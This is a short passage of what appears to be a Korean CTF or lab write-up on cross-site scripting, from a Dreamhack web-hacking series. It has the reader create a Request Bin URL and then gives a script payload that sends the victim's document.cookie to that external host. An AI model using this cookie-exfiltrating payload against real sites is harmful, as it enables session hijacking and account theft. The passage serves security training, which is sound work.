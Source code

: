 ![4. Xross Site Scripting 4](/assets/images/writeup/web-hacking/knock-on/4_XSS_4.png)


위 주소로 접속 후

1. 사이드바 Request Bin탭 클릭
2. 링크 생성
3. URL복사

|

```sql
<script>location.href="https://uplgtbm.request.dreamhack.games/"+document.cookie</script>
```

![4. Xross Site Scripting 5](/assets/images/writeup/web-hacking/knock-on/4_XSS_5.png)
